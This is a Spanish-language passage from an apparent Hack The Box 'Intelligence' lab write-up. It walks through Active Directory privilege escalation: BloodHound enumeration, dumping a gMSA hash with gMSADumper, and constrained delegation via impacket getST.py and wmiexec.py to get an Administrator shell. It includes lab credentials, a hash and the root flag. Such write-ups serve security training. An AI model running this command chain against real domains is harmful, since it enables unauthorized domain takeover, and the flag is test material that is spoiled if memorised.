 Tenemos un usaurio nuevo. 
La herramienta bloodhound nos ayudaría para seguir viendo como escalar privilegios.
```console
└─$ bloodhound-python -d intelligence.htb -u 'Ted.Graves' -p 'Mr.Teddy' -c all -ns 10.10.10.248 -v
INFO: Connecting to LDAP server: dc.intelligence.htb
└─$ ls 
 20221110183506_computers.json   20221110183506_groups.json
 20221110183506_domains.json     20221110183506_users.json
```
Estos archivos se importan en el bloodhound para hacer una visual de como mejorar los privilegios.  
Marcamos tanto a Ted como a Tiffany como "owned", entonces por "Shortest path from Owned principals" se puede ver como escalar desde ellos.  
- Ted.Graves, es miembro de IT support. Este grupo tiene el privilegio "ReadGMSAPassword" sobre svc_int.  

![ìnteligence5](https://user-images.githubusercontent.com/96772264/201470541-d920ba51-92a1-48a5-a0d9-073611db9db3.PNG)

Los usaurios del grupo **Group Managed Service Accounts** (GMSA, o sea svc_int) sus contraseñas son gestionadas y cambiadas cada cierto tiempo automaticamente 
(MSDS-ManagedPasswordInterval) por los Domain Controllers (en nuestro caso el grupo ITSupport), es decir estos leen la contraseña del GMSA y pueden impersonarlo 
por tanto. 
El GMSA suele estar logueado en el sistema, y si no, suele haber un demonio (tarea programada) que actue por él.

Para el ataque necesitamos ciertos datos: 
- Reloj a la hora de la maquina -> ```sudo service virtualbox-guest-utils stop; sudo ntpdate -s 10.10.10.248```  
- Allowed to delegate -> Bloodhound svc_int (usuario GMSA) Allowed To Delegate -> spn (WWW/dc.intelligence.htb)  
- Nombre de la computadora del GMSA -> ```pywerview get-netcomputer -u 'Ted.Graves' -t 10.10.10.248 -> svc_int.intelligence.htb```  
- Hash del GMSA -> ```python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -l 10.10.10.248 -d intelligence.htb # svc_int$:::80c1d73...```  

```console
└─$ python3 /usr/share/doc/python3-impacket/examples/getST.py -spn WWW/dc.intelligence.htb \
-impersonate Administrator intelligence.htb/svc_int -hashes :80c1d736d9988b5763b9aa74362db287
# Hacemos que nuestro svc_int impersona al admin
└─$ export KRB5CCNAME=administrator.ccache
└─$ python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass dc.intelligence.htb
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
intelligence\administrator
C:\Users\Administrator\Desktop>type root.txt
b5ce8b6b098f4b16facfb68f95a8a38f
```
----------------------------------
## Extra Registros DNS
